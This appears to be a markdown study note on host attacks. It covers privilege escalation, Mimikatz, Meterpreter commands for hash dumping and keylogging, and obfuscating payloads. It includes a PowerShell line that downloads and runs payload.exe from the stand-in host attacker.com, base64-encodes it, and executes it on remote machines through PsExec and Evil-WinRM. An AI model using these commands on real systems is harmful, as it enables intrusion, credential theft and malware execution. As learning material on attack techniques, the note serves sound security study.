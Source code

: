 
### Host Attacks

- **Privilege escalation**
  - vertical escalation = gaining higher privileges
  - horizontal escalation = accessing peer level accounts
  - Mimikatz : post exploitation tool extracting plaintext passwords, hash dumps and Kerberos tickets from memory
    - horizontal escalation by getting credentials of logged in users
  - Seatbelt : post-exploitation tool to detect System misconfiguration in Windows 
  - Meterpreter : Metasploit custom shell accessible with most Metasploit exploits and MsfVenom payloads
  ```shell
  # Meterpreter useful commands
  
  getpid             # get the process ID under which our shell is running
  ps                 # list all running processes to see the user of our current process 
  getsid             # get the security ID, the unique identifier of the user in the domain (S-1-5-18 for SYSTEMS)
  hashdump           # use mimikatz to dump user names, IDs and hashes
  migrate 1424       # migrate the current shell into another process (for example to look less suspicious)
                     # the main reason to migrate is to run the shell inside a stable process like explorer.exe or services.exe
                     # also if we want to use a keylogger we need to have a shell running as the target user
  keyscan_start      # start a keylogger
  keyscan_dump       # print to the screen the captured keystrokes
  keyscan_stop       # stop the keylogger
  ```
  

- Misconfigured endpoints
  - weak passwords
  - unnecessary services running
  - once the attacker has access to a network, he can use PowerShell to execute scripts or PsExec to send commands to other machines on the network.


- **Payload Obfuscation**
  - techniques used to disguise malicious payloads to avoid detection by security tools
  - done via encoding, encryption, compression, code manipulation...
  - the payload can be encoded with PowerShell :
  ```shell
  $payload = 'Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile C:\temp\payload.exe; Start-Process C:\temp\payload.exe'
  $bytes = [System.Text.Encoding]::Unicode.GetBytes($payload)
  $encodedPayload = [Convert]::ToBase64String($bytes)
  ```
  - the encoded payload can be sent and executed to remote machines with PsExec
  ```shell
  psexec \\<REMOTE_IP> -s poweshell.exe -Command "powershell -EncodedCommand $encodedPayload"
  ```
  - Evil-WinRM is another tool that can be used to execute command on a remote machine via the Windows Remote Management services (WinRM)
  ```shell
  evil-winrm -i <REMOTE_IP> -u <USERNAME> -p <PASSWORD> -s "powershell -EncodedCommand $encodedPayload"
  ```
